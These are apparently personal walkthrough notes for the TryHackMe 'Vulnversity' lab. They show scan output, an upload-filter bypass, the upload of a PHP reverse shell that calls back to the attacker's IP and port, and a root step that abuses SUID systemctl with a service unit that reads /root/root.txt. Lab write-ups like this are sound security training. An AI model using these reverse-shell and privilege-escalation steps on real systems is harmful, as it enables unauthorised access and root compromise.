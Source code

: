 tryhackme | vulnversity

10.10.33.213 


writeups:

https://unicornsec.com/home/tryhackme-vulnversity


#### nmap scan:

```bash
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack vsftpd 3.0.3
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
|_  0/4 checks are positive: Host is CLEAN or ports are blocke
```



#### dirbuster scan: 

`gobuster dir -u http://10.10.33.213/3333 -w /usr/share/wordlists/dirb/common.txt -t 4 -o dirb.txt`

```bash
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/css                  (Status: 301) [Size: 317] [--> http://10.10.33.213:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.33.213:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.33.213:3333/images/]
/index.html           (Status: 200) [Size: 33014]
/internal             (Status: 301) [Size: 322] [--> http://10.10.33.213:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.33.213:3333/js/]
/server-status        (Status: 403) [Size: 302]
```

#### upload/text extension filtering using burpsuite: 

Burpsuite->Connect ProxyIntercepter->Test Extensions


#### Upload .phtml php payload
use payload from `/usr/share/webshells/php/php-reverse-shell.php`

edit following values (using tun0 network IP)

```bash
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.6.16.52  netmask 255.255.128.0  destination 10.6.16.52
```


```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.16.52';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Upload file to and curl it

`curl http://10.10.33.213:3333/internal/uploads/php-reverse-shell.phtml`


after gaining access, search for SUID permission programs, this file stands out: 

`/bin/systemctl`

create env variable, echo a file that outputs root flag to a tmp file

```bash
[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"

[Install]
WantedBy=multi-user.target
```









